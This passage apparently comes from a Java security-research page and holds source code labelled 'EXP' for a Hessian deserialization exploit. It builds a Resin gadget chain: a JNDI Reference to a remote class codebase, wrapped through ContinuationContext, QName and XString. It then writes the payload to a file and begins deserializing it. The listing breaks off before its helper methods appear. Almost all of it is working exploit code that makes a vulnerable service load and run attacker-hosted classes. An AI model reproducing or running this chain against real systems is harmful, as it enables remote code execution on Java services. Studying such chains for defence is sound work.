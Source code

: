#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;
import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ResinHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);

        Object cannotProceedException = Class.forName("javax.naming.CannotProceedException").getDeclaredConstructor().newInstance();
        String classname = "javax.naming.NamingException";
        setFiled(classname, cannotProceedException, "resolvedObj", ref);

        // 创建ContinuationContext对象
        Class<?> aClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> constructor = aClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        // 构造方法为protected修饰
        constructor.setAccessible(true);
        Context continuationContext = (Context) constructor.newInstance(cannotProceedException, new Hashtable<>());


        // 创建QName
        QName qName = new QName(continuationContext, "aaa", "bbb");
        String str = unhash(qName.hashCode());
        // 创建Xtring
        XString xString = new XString(str);

        // 创建HashMap
        HashMap hashMap = new HashMap();
        hashMap.put(qName, "111");
        hashMap.put(xString, "222");

        // 序列化
        FileOutputStream fileOutputStream = new FileOutputStream("JavaSec/out/ResinHessian.bin");
        Hessian2Output hessian2Output = new Hessian2Output(fileOutputStream);
        SerializerFactory serializerFactory = new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        hessian2Output.setSerializerFactory(serializerFactory);
        hessian2Output.writeObject(hashMap);
        hessian2Output.close();

        // 反序列化
        FileInputStream fileInputStream = new FileInputStream("JavaSec/out/ResinHessian.bin");
```